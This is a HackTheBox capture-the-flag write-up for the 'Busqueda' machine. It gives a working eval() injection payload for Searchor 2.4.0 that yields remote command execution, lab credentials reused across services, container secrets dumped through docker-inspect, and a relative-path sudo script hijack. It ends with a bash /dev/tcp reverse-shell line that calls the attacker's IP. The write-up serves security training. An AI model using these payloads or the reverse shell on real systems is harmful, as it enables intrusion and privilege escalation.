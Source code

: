 # [Busqueda](https://app.hackthebox.com/machines/Busqueda) - 04/05/2023 - HackTheBox write-up


## User flag

### Discovery

With a quick `nmap` we can find only a SSH and a HTTP server, so it will be only Web vulnerability exploitation.

The home page of the site is a "search page", we can search anything on a lot of services (google, YouTube...). With a `whatweb` command we can find that it's a Flask server :
```bash
$ whatweb http://searcher.htb
http://searcher.htb [200 OK] Bootstrap[4.1.3], Country[RESERVED][ZZ], HTML5, HTTPServer[Werkzeug/2.1.2 Python/3.10.6], IP[10.10.11.208], JQuery[3.2.1], Python[3.10.6], Script, Title[Searcher], Werkzeug[2.1.2]
```

On the homepage we can see it use `Searchor` a python package that provide the same service as the site, it's just based on this tool.

### Searching for vulnerability

There isn't other pages on the web app, so the vulnerability might come from this tool. By a quick searching on the net, we can find that before version 2.4.0, it's vulnerable to a [code injection](https://github.com/ArjunSharda/Searchor/pull/130/commits/29d5b1f28d29d6a282a5e860d456fab2df24a16b#diff-40a1b591e95ee135f3f26e8ffa117a4816c202b6ce76852be85018fed09c4436), because of a bad `eval()` usage. The vulnerability is patched in the next version, but the application use precisely the version 2.4.0, so it's definitely this vulnerability to exploit.

### Exploitation

First, I try to exploit the vulnerability with the `engine` parameter with the following payload :
```
engine=__class__.__base__.__mro__[1].__subclasses__()[241]('ls /home/',shell=True,stdout=-1).communicate()[0].strip()"#&query=test
```

Because this parameter is concatenate to `Engine.` it will result in :
```
url = eval(f"Engine.__class__.__base__.__mro__[1].__subclasses__()[241]('ls /home/',shell=True,stdout=-1).communicate()[0].strip()"#.search('{query}')")
```

And with the `Intruder` I was searching for the correct index in the `__subclasses__` to obtain `<class 'subprocess.Popen'>` and execute commands.

But this is not working, so I try with the other parameter `query`. First, I noticed that if I insert a quote (`'`) in my entry the rest of the parameter is ignored. The `query` parameter isn't escape at all, it's just inserted as is in the URL, and so, in the `eval()`. So I can execute any command with this parameter and, moreover, I will have the result printed in the HTTP response !

The following payload can execute any command on the server :
```
engine=Google&query=' + __import__('os').popen('<cmd>').read() + '
```

With this a wrote a small Python script to automate this command injection and send command easily. With this, I find that the user who run the Flask app is `svc` :
```bash
$ python rce.py id
uid=1000(svc) gid=1000(svc) groups=1000(svc)
```

And so, I can just run the following command to get the flag :
```bash
$ python rce.py "cat /home/svc/user.txt"
[...flag...]
```

## Root flag

With this RCE on the server we can explore the file system and quickly, we can find something interesting : a `.git/` in the web app directory.

This directory can contains interesting informations such as old codes or credentials, and indeed, we just find this in the `.git/config` :
```bash
$ python rce.py "cat .git/config"
[core]
	repositoryformatversion = 0
	filemode = true
	bare = false
	logallrefupdates = true
[remote "origin"]
	url = http://cody:jh1usoih2bkjaspwe92@gitea.searcher.htb/cody/Searcher_site.git
	fetch = +refs/heads/*:refs/remotes/origin/*
[branch "main"]
	remote = origin
	merge = refs/heads/main
```

In this file we obtain two informations :
    - First we obtain some credentials : `cody:jh1usoih2bkjaspwe92`,
    - And, we find a subdomain : `gitea.searcher.htb`.

This subdomain, might be interesting for the continuation of the machine, and we can try this creds to connect to the SSH server.

With `cody:jh1usoih2bkjaspwe92` it doesn't work, but it works with `svc:jh1usoih2bkjaspwe92`.

### Searching for elevating privileges

So, we now have access to the server through SSH so we need to find a way to became `root`.

First, we can find the following with a `sudo -l`:
```bash
$ sudo -l
User svc may run the following commands on busqueda:
    (root) /usr/bin/python3 /opt/scripts/system-checkup.py *
```

We can execute a python script with the `root` privileges. This script allow us to list and inspect running docker containers with the following arguments :
```bash
$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py a
Usage: /opt/scripts/system-checkup.py <action> (arg1) (arg2)

     docker-ps     : List running docker containers
     docker-inspect : Inpect a certain docker container
     full-checkup  : Run a full system checkup
```

With `docker-ps` we can see there is currently two containers running, `gitea` for the web app under `gitea.searcher.htb` and `mysql_db` for the MySQL database.

The interesting command is the second, by searching on the web we can use `Go templates` to read informations about the containers. We can find that we can read all the informations in JSON format with the template `'{{json .}}'`. So we can run the following command :
```bash
sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect '{{json .}}' mysql_db | json_pp
```

We can see a lot of informations with this, and especially the following :
```json
"Env" : [
	"MYSQL_ROOT_PASSWORD=jI86kGUuj87guWr3RyF",
	"MYSQL_USER=gitea",
	"MYSQL_PASSWORD=yuiu1hoiu4i5ho1uh",
	"MYSQL_DATABASE=gitea",
	"PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin",
	"GOSU_VERSION=1.14",
	"MYSQL_MAJOR=8.0",
	"MYSQL_VERSION=8.0.31-1.el8",
	"MYSQL_SHELL_VERSION=8.0.31-1.el8"
]
```

And now, we can connect to the database as `root` user :
```bash
mysql -u root -p -h 172.19.0.2	# then write password
```

With this we can try to get the `administrator` password for the `Gitea` platform by trying to crack his hashed password. By searching in the GitHub repo of `Gitea` we can find the algorithm corresponding to the `password_hash_algo`: `pbkdf2`, is PBKDF2-HMAC-SHA256 with 10.000 iterations and a length of 50 bytes (400 bits or 100 hex. chars).
```mysql
mysql> select name,email,passwd,salt from user;
+---------------+----------------------------------+-----------------------------------------------------------------------------------------------------+-----------------------------------+
| name          | email                            | passwd                                                                                               | salt                             |
+---------------+----------------------------------+------------------------------------------------------------------------------------------------------+----------------------------------+
| administrator | administrator@gitea.searcher.htb | ba598d99c2202491d36ecf13d5c28b74e2738b07286edc7388a2fc870196f6c4da6565ad9ff68b1d28a31eeedb1554b5dcc2 | a378d3f64143b284f104c926b8b49dfb |
| cody          | cody@gitea.searcher.htb          | b1f895e8efe070e184e5539bc5d93b362b246db67f3a2b6992f37888cb778e844c0017da8fe89dd784be35da9a337609e82e | d1db0a75a18e50de754be2aafcad5533 |
+---------------+----------------------------------+------------------------------------------------------------------------------------------------------+----------------------------------+
2 rows in set (0.00 sec)
```

We can convert this password hashes to a comprehensible format for `hashcat` and try to crack it with `rockyou.txt` :
```bash
$ cat hash.txt
sha256:10000:0dsKdaGOUN51S+Kq/K1VMw:sfiV6O/gcOGE5VObxdk7NiskbbZ/OitpkvN4iMt3joRMABfaj+id14S+NdqaM3YJ6C4
sha256:10000:o3jT9kFDsoTxBMkmuLSd+w:ulmNmcIgJJHTbs8T1cKLdOJziwcobtxziKL8hwGW9sTaZWWtn/aLHSijHu7bFVS13MI
$ hashcat -m 10900 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
```

It takes some times because PBKDF2-HMAC-SHA256 is a pretty strong hash format, but in 30 mins we can achieve the wordlist `rockyou.txt`, but it doesn't find a password, so we need to find something else.

Finally, I notice that I didn't try to log in on the `Gitea` instance with all the combinations of usernames and passwords, and indeed we can log in as an `administrator` with the password `yuiu1hoiu4i5ho1uh (MYSQL_PASSWORD)`. With this account we can now read the scripts in `/opt/scripts` that we see before without the possibility of read them. There is a script `full-checkup.sh` in the same directory which is called if we provide `full-checkup` as an argument to the `system-checkup.py` script. It's called with `subprocess.run()` so we cannot inject command but the path is `./full-checkup.sh` in the script so we can maybe modify the PATH or PWD environnement variable to make the script call our own `full-checkup.sh` and obtain a shell as `root`.

### Exploitation

We don't even need to modify environnement variables to call our own `full-checkup.sh`. We just need to go to a writeable directory and create a reverse shell script, for example :
```bash
$ cat /home/svc/tmp/full-checkup.sh
#!/usr/bin/bash
bash -i >& /dev/tcp/10.10.14.65/1234 0>&1
```

The script is called with `./full-checkup.sh` so we need to precise the interpreter with "`#!/usr/bin/bash`" or it will not works.

Now we can start a `nc` on our machine and run the command `sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup`, and we will get a reverse shell as root on the server !
